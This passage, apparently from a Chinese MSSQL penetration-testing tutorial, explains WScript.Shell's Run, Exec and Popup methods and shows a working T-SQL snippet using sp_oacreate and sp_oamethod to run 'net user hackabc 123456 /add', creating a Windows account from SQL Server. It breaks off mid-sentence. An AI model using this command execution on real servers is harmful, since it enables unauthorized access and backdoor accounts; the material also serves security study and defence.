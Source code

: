 通过使用 WScript.Shell 对象，可以在 Windows 脚本（如 VBScript 或 JScript）中执行系统命令、打开文件、运行程序等操作。

（2）使用sp_oamethod 调用@shellx 对象中的Run方法，执行添加用户的命令



执行指定的命令，并返回命令的退出代码。

```mssql
Run(command, windowStyle, waitOnReturn)
```

> command 是要执行的命令字符串；
>
> windowStyle 是可选参数，指定命令窗口的样式；
>
> waitOnReturn是可选参数，指定是否等待命令执行完成再继续执行脚本。

启动指定的程序。

```mssql
Exec(program)
```

> program是要启动的程序路径。

显示一个弹出消息框。

```
Popup(message, title, buttons, icon, timeout)
```

> `message` 是要显示的消息内容；
>
> `title` 是消息框的标题；
>
> `buttons` 是消息框中的按钮类型；
>
> `icon` 是消息框中的图标类型；
>
> `timeout` 是消息框的超时时间（以毫秒为单位）

```mssql
declare @shellx int
exec sp_oacreate 'wscript.shell',@shellx output
exec sp_oamethod @shellx,'run',null,'net user hackabc 123456 /add'
```

![aae4a1f9e64114ca3f7a579c8bd02a7](https://image.201068.xyz/assets/MSSQL/aae4a1f9e64114ca3f7a579c8bd02a7.png)

具体来说，`sp_oamethod` 存储过程用于调用 `OLE` 对象的方法。它接受四个参数：

> @object：要调用方法的 OLE 对象的引用。
>
> 'MethodName'：要调用的方法的名称。
>
> @parameter1, @parameter2, ...：可选的参数，用于传递给方法的值。

在这个例子中，
